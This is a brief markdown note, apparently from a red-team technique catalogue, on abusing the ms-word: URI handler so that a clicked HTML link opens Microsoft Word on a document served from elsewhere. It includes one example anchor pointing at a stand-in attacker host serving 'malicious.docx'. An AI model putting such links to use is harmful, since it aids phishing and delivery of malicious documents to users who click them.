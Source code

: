 # Office Links

When a user clicks on an HTML page having the following format, Microsoft Word will be run to handle the opening of the served document. Links like that could be misused for phishing purposes.

```html
<html>
    <a href="ms-word:nft|u|http://attacker.domain/malicious.docx">Click Me</a>
</html>
```

## Tools
########
########

```meta
ttp: T1000
internal: false
requirements: 
results: 
description: Office-handeld Links
```